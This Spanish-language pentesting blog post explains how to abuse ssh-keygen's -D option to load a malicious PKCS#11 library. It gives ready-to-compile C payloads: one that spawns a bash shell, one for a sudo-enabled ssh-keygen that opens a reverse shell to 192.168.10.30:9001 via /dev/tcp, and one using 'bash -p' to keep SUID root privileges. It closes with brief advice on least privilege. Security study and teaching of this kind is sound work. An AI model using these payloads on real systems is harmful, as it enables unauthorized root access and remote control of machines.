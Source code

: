 ```yaml
---
title: "Abusando de ssh-keygen"
summary: "SSH-Keygen es una herramienta que permite crear y gestionar claves SSH, esta herramienta esta presente en la mayoría de los sistemas UNIX hoy en día como herramienta para facilitar la gestión de las claves SSH.\n\nEn este articulo exploraremos un par de métodos para abusar de esta herramienta con ciertas configuraciones como método de persistencia o de escalada de privilegios en el sistema.\n\nEn concreto abusaremos de una funcionalidad concreta de este binario que permite la carga de claves publicas desde una librería de lectura de tarjetas, esta opción es el parámetro -D, su uso es el siguiente."
date: 2024-10-17
tag:
    - Ciberseguridad
    - Pentesting
    - SSH
    - Linux
    - SUID 
    - Persistencia
lang: es
---
```

# Abusando de ssh-keygen

SSH-Keygen es una herramienta que permite crear y gestionar claves SSH, esta herramienta esta presente en la mayoría de los sistemas UNIX hoy en día como herramienta para facilitar la gestión de las claves SSH.

En este articulo exploraremos un par de métodos para abusar de esta herramienta con ciertas configuraciones como método de persistencia o de escalada de privilegios en el sistema.

En concreto abusaremos de una funcionalidad concreta de este binario que permite la carga de claves publicas desde una librería de lectura de tarjetas, esta opción es el parámetro -D, su uso es el siguiente.

```c
ssh-keygen -D ./lib.so
```

# Como generamos el payload

Una vez explicado que nos lleva a poder explotar esta función, vamos a explicar en mayor detalle como generar un payload, para ello primero de todo será obtener una versión de pkcs11.h . En este archivo de cabeceras es donde se definen los tipos de datos necesarios para la función de nuestra librería que llamara ssh-keygen al usar el parámetro -D. 

En nuestro caso, para ello iremos al repositorio de Open Smart Card y descargaremos la versión que necesitamos de la siguiente url:

[GitHub - PKCS11](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h){:target="_blank"}

Con este archivo procederemos a escribir un pequeño programa en C con la estructura necesaria para ser ejecutado por ssh-keygen, en nuestro caso este programa lanza una shell en bash.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Una vez compilado podemos cargarlo como librería como indicamos en la introducción. 

## Profit

## Caso 1: Sudo SSH-Keygen

Vamos a explotar un escenario donde nuestro usuario tiene permisos para ejecutar el comando ssh-keygen como root.

```bash
Matching Defaults entries for pnavas on test:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pnavas may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /usr/bin/ssh-keygen
```

En este ese caso, en lugar de hacer uso de una simple llamada a bash vamos a cargar una reverse shell.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, "-c" , "bash -i >& /dev/tcp/192.168.10.30/9001 0>&1", NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Como resultado, al cargarla obtendremos una conexión como root en nuestro listener, podríamos cambiarlo para ejecutar una shell sencillamente como en el ejemplo de la sección de teoría .

## Caso 2: SSH-Keygen SUID

En este escenario vamos a explotar un escenario algo menos común donde ssh-keygen tiene el bit del SUID activado, en este caso para mantener los privilegios del SUID tenemos que cambiar un poco el código de la librería para que la shell mantenga los privilegios.

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {

        char *cmd = "/bin/bash";
        char *args[] = {cmd, "-p", NULL};
        execv(cmd,args);

   } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

Una vez compilado podemos ejecutar el comando para cargar la librería y obtener una shell con los privilegios necesarios.

## Reflexiones Finales

Como se ha demostrado, ssh-keygen es una herramienta poderosa que, cuando está mal configurada o mal utilizada, puede convertirse en un riesgo significativo para la seguridad. Los escenarios presentados en este artículo destacan la importancia de configurar y restringir adecuadamente el acceso a binarios con privilegios elevados.

Al comprender y gestionar proactivamente las capacidades y riesgos asociados con herramientas comunes como ssh-keygen, los administradores pueden garantizar la integridad y seguridad de sus sistemas.

!!! note
    Adopte siempre el principio de privilegio mínimo y realice auditorías de seguridad regulares para minimizar las superficies de ataque.

---

